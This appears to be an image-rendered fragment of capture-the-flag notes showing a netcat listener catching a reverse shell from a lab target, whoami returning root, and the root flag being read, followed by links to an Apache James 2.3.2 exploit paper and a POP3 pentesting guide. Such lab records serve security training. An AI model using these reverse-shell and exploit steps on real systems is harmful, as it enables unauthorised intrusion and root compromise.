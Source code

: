 
  [p3:...esome-scripts-suite/linPEAS]$ nc -lvnp 4499                                                                                                   (master)
    listening on [any] 4499 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.51] 49756
    whoami
      root
    cat /root/root.txt
      4f4afb55463c3bc79ab1e906b074953d


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

James 2.3.2 Exploit:
  https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf

POP3:
  https://book.hacktricks.xyz/pentesting/pentesting-pop
